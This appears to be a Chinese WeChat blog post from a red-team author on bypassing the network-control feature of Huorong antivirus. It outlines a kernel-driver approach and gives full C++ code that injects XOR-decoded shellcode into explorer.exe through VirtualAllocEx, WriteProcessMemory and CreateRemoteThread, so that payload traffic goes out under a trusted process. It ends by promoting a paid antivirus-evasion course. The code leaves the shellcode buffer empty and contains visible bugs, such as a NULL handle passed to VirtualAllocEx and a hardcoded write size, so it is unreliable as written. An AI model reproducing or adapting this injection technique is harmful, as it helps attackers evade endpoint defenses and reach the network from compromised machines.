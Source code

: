 #  火绒杀毒联网控制ByPass

原创 朝歌暮酒  [ 我真不是红队啊 ](javascript:void\(0\);)

**我真不是红队啊** ![]()

微信号 yeanxinmingi

功能介绍 阳光白云蓝天与你，缺一不可

____

___发表于_

收录于合集

### 前言：

在攻防演练过程中本人多次遇到防守人员应急或者研发、运维等人员安全意识较高开启火绒联网控制在阻止目标机器出网。

### Bypass联网控制：

这里给出两种方案：

  1. 使用Driver进行Bypass

  2. 注入系统核心进程

#### 使用Driver进行Bypass

这种方案实现起来较难且兼容性不高，但核心其实就是Github中一个开源库：

> https://github.com/send010/KernelHttp

这个库可以让你在R0下便捷的发起HTTP请求。在配合我之前写过的一篇文章来加载驱动：

> http://www.pentester.top/index.php/archives/115/

#### 注入Windows核心程序进行Bypass:

我们注意到在联网控制的默认设置中会存在 **自动放行Windows核心程序** ：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230310224839.png)

那么我们只需要去测试哪些程序被火绒认为是Windows核心程序在注入shellcode到目标程序中就可以了，代码如下：

    
          1. #include <windows.h>
    
      2. #include <tlhelp32.h>
    
      3. #include <iostream>
    
      4. using namespace std;
    
      5. void main(int argv,char** argc) {
    
      6.     PROCESSENTRY32 entry;
    
      7.     entry.dwSize = sizeof(PROCESSENTRY32);
    
      8.     HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
    
      9.     if (Process32First(snapshot, &entry) == TRUE)
    
      10.     {
    
      11.         while (Process32Next(snapshot, &entry) == TRUE)
    
      12.         {
    
      13.             if (stricmp(entry.szExeFile, "explorer.exe") == 0)
    
      14.             {
    
      15.                 HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, true, entry.th32ProcessID);
    
      16.                 if (hProcess == NULL) {
    
      17.                     cout << "[-] 进程句柄打开失败！" << endl;
    
      18.                     return;
    
      19.                 }
    
      20.                 cout << "[+] 进程句柄打开成功!" << hex << hProcess << endl;
    
      21.                 BYTE Buffer[] = {  };
    
      22.                 BYTE Buffer2[sizeof(Buffer)] = { 0 };
    
      23.                 for (int i = 0; i < sizeof(Buffer); i++) {
    
      24.                     int x = Buffer[i] ^ 0xd;
    
      25.                     Buffer2[i] = x;
    
      26.                     printf("%x,", Buffer2[i]);
    
      27.                 }
    
      28.                 LPVOID pBuf = VirtualAllocEx(NULL, NULL, sizeof(Buffer2), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
      29.                 if (!pBuf) {
    
      30.                     cout << "[-] 内存申请失败" << endl;
    
      31.                     CloseHandle(hProcess);
    
      32.                     return;
    
      33.                 }
    
      34.                 cout << "[+] 内存申请成功，Address:" << hex << pBuf << endl;
    
      35.                 SIZE_T dwWrite = 0;
    
      36.                 if (!WriteProcessMemory(hProcess, pBuf, Buffer2, 1477, &dwWrite))
    
      37.                 {
    
      38.                     cout << "[-] 内存写入失败" << endl;
    
      39.                     CloseHandle(hProcess);
    
      40.                     return;
    
      41.                 }
    
      42.                 cout << "[+] 内存写入成功" << endl;
    
      43.                 getchar();
    
      44.                 HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, NULL,
    
      45.                     (LPTHREAD_START_ROUTINE)pBuf, NULL, 0, 0);
    
      46.                 if (!hRemoteThread) {
    
      47.                     cout << "[-] 创建远程线程失败！" << GetLastError() << endl;
    
      48.                     return;
    
      49.                 }
    
      50.                 cout << "[+] 线程ID:" << hRemoteThread << endl;
    
      51.                 WaitForSingleObject(hRemoteThread, -1);
    
      52.                 CloseHandle(hRemoteThread);
    
      53.                 CloseHandle(hProcess);
    
      54.                 VirtualFreeEx(hProcess, pBuf, 0, MEM_FREE);
    
      55.                 CloseHandle(hProcess);
    
      56.             }
    
      57.         }
    
      58.     }
    
      59.     CloseHandle(snapshot);
    
      60.    
    
      61. }
    
    
    

#### 免杀入门级课程：

 **该课程仅适合免杀入门，有基础的请不要购买**

> https://edu.csdn.net/course/detail/37761

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

